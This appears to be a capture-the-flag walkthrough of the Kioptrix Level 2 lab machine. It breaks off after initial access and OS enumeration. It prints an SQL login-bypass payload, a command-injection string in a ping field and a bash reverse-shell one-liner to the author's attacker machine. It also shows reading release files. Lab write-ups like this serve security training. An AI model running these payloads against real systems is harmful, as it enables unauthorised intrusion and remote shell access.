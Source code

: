 # Kioptrix Level 2 walk-through

### Initial portscan
----
- I always start with an initial port scan to see what ports are open.
![alt text](https://github.com/pg-cy/CTF-Walkthrough/blob/main/kioptrix_level2/Images/nmap_scan.png)

- ipp (internet printing protocol) port 631 was open, with version CUPS 1.1. I quickly searched with searchsploit and tried a quick python exploit but couldnt get it to work. There wasnt a lot of exploits available for that version so i decdided to move onto a more juicier port like 80.
--------
- Looking at the webserver on port 80, i tend to browse the website first, usually before or while i directory bruteforce. 
- At the main page it had a login form, so i had a feeling it was going to be a sql injection attack to gain remote access to the machine.
- Tried out a simple SQL auth bypass before i started diving into a more complicated SQL. Injection i tried `' OR 1=1 -- -` inside the username field, and password can be anything.

![alt text](https://github.com/pg-cy/CTF-Walkthrough/blob/main/kioptrix_level2/Images/Screenshot_2022-02-10_21-35-37.png)
![alt text](https://github.com/pg-cy/CTF-Walkthrough/blob/main/kioptrix_level2/Images/SQL.png)

- Now theres a user input field and it says we can ping a machine on a network. So ill try to ping my attacker machine that im using.
![alt text](https://github.com/pg-cy/CTF-Walkthrough/blob/main/kioptrix_level2/Images/ping-screen.png)
- Looks like we can ping our own machine   
![alt text](https://github.com/pg-cy/CTF-Walkthrough/blob/main/kioptrix_level2/Images/ping_test.png)

- So it looks like its using the OS ping command, which we can try to command stack using   `;  &&  ||`  to get a reverse shell
- Testing command stacking with the command `; id`
![alt text](https://github.com/pg-cy/CTF-Walkthrough/blob/main/kioptrix_level2/Images/id_test.png)
----------
- lets try a reverse shell using bash. `; bash -i >& /dev/tcp/10.0.2.6/443 0>&1`
![alt text](https://github.com/pg-cy/CTF-Walkthrough/blob/main/kioptrix_level2/Images/bash_code.png)
![alt text](https://github.com/pg-cy/CTF-Walkthrough/blob/main/kioptrix_level2/Images/bash_rev_shell.png)

- wooo! success we have a shell on the machine! we are apache user with low privileges so lets try to get root.
- from the previous image, we can see the kernal is 2.6.9-55. I usually like to look at the privileges the user has and what kernal version is running once i get access to the machine.
- I used searchsploit to search "kernel 2.6"....and there was a ton of exploits that poped up. I decided to see if i can find the OS to help me narrow it down.


- `uname -a` was not much help to determine OS type. So i used the command `cat  /etc/*-release`. 
- Its running CentOS 4.5
![alt text](https://github.com/pg-cy/CTF-Walkthrough/blob/main/kioptrix_level2/Images/OS.png)


